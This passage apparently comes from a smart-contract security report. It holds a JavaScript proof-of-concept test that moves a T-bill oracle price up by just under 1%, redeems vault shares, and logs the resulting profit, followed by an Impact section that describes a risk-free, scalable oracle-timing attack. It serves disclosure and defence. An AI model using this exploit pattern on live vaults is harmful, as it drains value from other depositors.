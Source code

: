 ```solidity 
      const inv1SharesToAssets=await vaultV4.previewRedeem(inv1shares);
      console.log("inv1sharesToAssets",inv1SharesToAssets)

      // Updating the price to 1:1.2 USD
      const NewtbillOraclePrice = BigNumber.from("100999999"); // to fit in the 1% max deviation
      await tbillOracle.updatePrice(NewtbillOraclePrice);
      const newPrice = await tbillOracle.latestAnswer();
      console.log("newPrice",newPrice);

      // previewing shares to assets after update
      inv1SharesToAssets=await vaultV4.previewRedeem(inv1shares);
      console.log("inv1sharesToAssets",inv1SharesToAssets)

      // Investor1 tries to redeem his shares
      // Prepare redemption contract
      await usycTokenIns.connect(usycTreasuryAccount).approve(usycRedemptionIns.address, _10M);
      const investor1Balance=await vaultV4.balanceOf(investor1.address);

      // Investor1 redeems their shares
      const investor1RedeemTx = await vaultV4.connect(investor1).redeemIns(investor1Balance, investor1.address);
      const investor1Receipt = await investor1RedeemTx.wait();

      const investor1RedeemEvent = investor1Receipt.events?.find(e => e.event === 'ProcessWithdraw');

      if (investor1RedeemEvent) {
        // args[2] = total assets before fee deduction
        // args[4] = actual assets transferred to user (after fee deduction)
        // args[8] = total fee deducted

        const investor1AssetsReceived = investor1RedeemEvent.args[4]; // _assetsToUser
        const investor1FeesPaid = investor1RedeemEvent.args[8];       // _totalFee


        console.log(`Investor1 (non-partner) received assets: ${investor1AssetsReceived}`);
        console.log(`Investor1 total fees paid: ${investor1FeesPaid}`);

        const profit =  investor1AssetsReceived-amountInvested;
        console.log(`Investor1 profit: ${profit}`); // 900$ on 100k deposit approx 1% freeRisk Money
        }
      });


```


## Impact   

- **Risk-Free Returns**: Attackers capture ~1% profit per positive oracle update with zero downside risk
- **Scalable Attack**: Profits scale linearly with available capital (e.g., $1M investment (if under max cap) → ~$10k profit per update)
- **Frequency**: With daily oracle updates and selective participation, attackers can achieve outsized annual returns
